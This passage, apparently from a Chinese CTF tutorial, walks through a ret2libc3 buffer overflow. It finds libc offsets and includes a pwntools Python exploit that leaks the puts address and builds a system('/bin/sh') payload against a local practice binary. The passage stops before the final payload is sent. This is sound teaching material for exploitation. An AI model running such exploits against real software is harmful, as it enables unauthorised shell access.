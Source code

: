 
首先添加本地的libc文件：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596859076768-336f9eda-ae2b-424e-8b8d-5d938d7af69d.png)

查看libc文件的部分信息：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596860749324-b1a326ac-5da2-48eb-bce2-1f334eb35996.png)

至此我们得到了system函数的偏移量和/bin/sh的偏移量(即str_bin_sh)。(当然，在IDA里也可以查看)

最后理一下思路

1.泄露puts函数的真实地址

2.得到libc的版本

3.得到system和puts和sh的偏移，计算libc基地址

4.计算system和sh的真实地址

5.构造payload为system(’/bin/sh’)

6.写exp

在上一个脚本的基础上加几行代码

```python
from pwn import *

p = process('./ret2libc3')
elf = ELF('./ret2libc3')

puts_got_addr = elf.got['puts']
puts_plt_addr = elf.plt['puts']
main_plt_addr = elf.symbols['_start']

print "puts_got_addr = ",hex(puts_got_addr)
print "puts_plt_addr = ",hex(puts_plt_addr)
print "main_plt_addr = ",hex(main_plt_addr)

payload = ''
payload += 'A'*112
payload += p32(puts_plt_addr)
payload += p32(main_plt_addr)
payload += p32(puts_got_addr)

p.recv()
p.sendline(payload)

puts_addr = u32(p.recv()[0:4])
print "puts_addr = ",hex(puts_addr)
sys_offset = 0x0003e980
puts_offset = 0x00068FD0
sh_offset = 0x00017eaaa

libc_base_addr = puts_addr - puts_offset 
sys_addr = libc_base_addr + sys_offset
sh_addr = libc_base_addr + sh_offset 

print "libc_base_addr = ",hex(libc_base_addr)
print "sys_addr = ",hex(sys_addr)
print "sh_addr = ",hex(sh_addr)

payload = ''
payload += 'A'*112
payload += p32(sys_addr)
payload += "AAAA"  
payload += p32(sh_addr)  
```